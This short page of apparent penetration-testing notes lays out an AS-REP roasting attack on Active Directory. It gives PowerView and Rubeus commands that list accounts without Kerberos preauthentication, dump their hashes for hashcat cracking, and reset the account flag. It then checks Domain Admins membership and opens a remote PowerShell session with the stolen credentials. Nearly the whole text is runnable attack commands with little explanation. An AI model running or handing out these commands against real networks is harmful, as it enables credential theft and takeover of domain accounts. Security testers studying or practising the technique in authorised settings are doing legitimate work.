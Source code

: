 ```
```
```
Get-DomainUser -PreauthNotRequired -Verbose
```
```
.\Rubeus.exe asreproast /format:hashcat /outfile:hashes
```
Set target user's value back to what it was.
```
Set-DomainObject -Identity $TARGET_USER -XOR @{useraccontcontrol=512} -Verbose
```
[[Hashcat#Kerberos AS-REP]]
Is target part of Domain Admins?
```
Get-DomainUser -SamAccountName $TARGET_USER
```
If so:
```
Enter-PSSession -ComputerName $NETBIOS_COMPUTER_NAME -Credential $NETBIOS_DOMAIN_NAME\$TARGET_USER
```
